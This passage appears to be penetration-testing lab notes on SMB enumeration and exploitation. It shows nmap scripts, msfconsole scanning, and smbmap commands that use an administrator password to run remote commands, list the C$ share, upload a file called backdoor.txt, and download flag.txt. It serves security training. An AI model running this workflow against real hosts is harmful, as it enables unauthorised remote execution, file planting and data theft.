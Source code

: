 By the way, it's possible to enumerate several script at the same time.

```bash
john@kali> nmap 10.13.17.58 -p 445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771
```

#### SMBMap

```bash
john@kali> ping 10.3.29.243
john@kali> nmap 10.3.29.243
john@kali> nmap -p445 --script smb-protocols 10.3.29.243
john@kali> smbmap -u guest -p '' -H 10.3.29.243
john@kali> smbmap -u administrator -p smbserver_771 -H 10.3.29.243
john@kali> smbmap -u administrator -p smbserver_771 -H 10.3.29.243 -x 'ipconfig'
john@kali> smbmap -u administrator -p smbserver_771 -H 10.3.29.243 -x 'dir'
john@kali> smbmap -u administrator -p smbserver_771 -H 10.3.29.243 -L
john@kali> smbmap -u administrator -p smbserver_771 -H 10.3.29.243 -r 'c$'

john@kali> echo 'Hello backdoor' > backdoor.txt
john@kali> smbmap -u administrator -p smbserver_771 -H 10.3.29.243 --upload 'backdoor.txt' 'c$\backdoor.txt'

john@kali> smbmap -u administrator -p smbserver_771 -H 10.3.29.243 --download 'c$\flag.txt'
john@kali> cat 10.3.29.243-C_flag.txt
```

#### Samba 1

There are different tool for SMB

1. NMAP with `smb-os-discovery`

```bash
john@kali> nmap 192.221.185.3                                  # check ports
john@kali> nmap 192.221.185.3 -sV -p 139,445                   # check TCP versions
john@kali> nmap 192.221.185.3 -sU --top-port 25 --open         # find UDP open ports
john@kali> nmap 192.221.185.3 -sU -p 137,138 -sV               # check UDP versions
john@kali> nmap 192.221.185.3 -p 445 --script smb-os-discovery # find OS
```

2. `msfconsole`

```
john@kali> msfconsole
msf5> use scanner/smb/smb_version
msf5> set rhosts 192.221.185.3
msf5> run
msf5> exit
```

3. `nmblookup`

```bash
john@kali> nmblookup -A 192.221.185.3
```
